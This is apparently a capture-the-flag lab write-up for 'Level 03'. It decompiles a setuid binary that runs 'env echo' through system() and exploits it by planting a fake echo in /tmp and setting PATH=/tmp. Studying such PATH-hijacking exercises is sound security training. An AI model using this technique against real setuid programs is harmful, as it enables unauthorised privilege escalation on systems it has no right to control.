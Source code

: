 # Level 03

Here we have an executable name "level03".
```sh
$ ./level03
Exploit me
```

We can decompile the file using [dogbotl](https://dogbolt.org)
```c
int32_t main(int32_t argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    return system("/usr/bin/env echo Exploit me");
}
```

We can see that env is an absolut path but not echo. We can modify the PATH variable to point to our own echo.

```sh
cp /bin/getflag /tmp/echo
PATH=/tmp ./level03
```